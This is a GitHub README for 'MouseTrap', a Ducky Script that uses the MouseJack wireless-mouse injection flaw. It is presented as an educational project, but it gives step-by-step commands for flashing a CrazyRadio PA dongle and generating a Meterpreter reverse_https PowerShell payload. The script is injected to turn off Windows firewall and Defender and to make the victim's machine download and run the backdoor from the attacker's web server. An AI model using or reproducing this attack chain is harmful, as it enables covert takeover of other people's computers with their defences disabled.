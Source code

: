 # MouseTrap
This is an implementation of Bastille's exploit [MouseJack](https://github.com/BastilleResearch/mousejack) using [JackIt's](https://github.com/insecurityofthings/jackit) exploit code. Full credit goes to them for discovering this issue and writing the libraries to work with the CrazyRadio PA dongle, as well as the implementation that I have created a Ducky Script for. For more information about the vulnerability, as well as vulnerable devices, check out their Github repositories! I do not promote the use of this software maliciously. This is solely for educational purposes!
## What is MouseTrap?
MouseTrap is a Ducky Script I have written for MouseJack that allows a user to disable Windows firewalls and Windows Defender real-time protection, and install a backdoor remotely through a victim's wireless mouse. In roughly 10 seconds, you can have a meterpreter session running without firewall interruption.
## Installation
Tested on a clean Kali Linux VM with a Crazy Radio PA
### MouseJack
Flashes CrazyRadio PA dongle with firmware and sets up dependencies
```
sudo git clone https://github.com/BastilleResearch/mousejack.git
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
cd mousejack
git submodule init
git submodule update
cd nrf-research-firmware
make
sudo make install

```
### JackIt
Used to scan for vulnerable devices and inject payload
```
sudo git clone https://github.com/insecurityofthings/jackit.git
cd jackit
pip install -e .
```
### Unicorn
Develops Powershell payload and sets up Metasploit Meterpreter session
```
sudo git clone https://github.com/trustedsec/unicorn.git
cd unicorn
python unicorn.py windows/meterpreter/reverse_https <LHOST IP> <LPORT>
mv powershell_attack.txt /var/www/html/
service apache2 start
msfconsole -r unicorn.rc
```
## Execution
For this payload to work, the victim must have admin privileges on their device. In order to optimize the speed of the payload, I created a web server on my local machine that the script downloads the Powershell payload from and executes. It is not necessary; however, recommended. In order for the script to install the payload, edit the `<LHOST>` in my `nofirewallallhack` file with your machine's IP address. When I tested the attack, both my machine and the victim's were on the same local network. Once the webserver is up and running with the Powershell payload, execute the command:
```
sudo jackit --script nofirewallallhack
```
Once the program has begun, it will scan for nearby devices. When you have identified your victim's device, hit Ctrl+C and select the device. The program will begin to inject the script, which will take roughly 10 seconds. Once the script has completed, a Meterpreter session should begin in Metasploit.
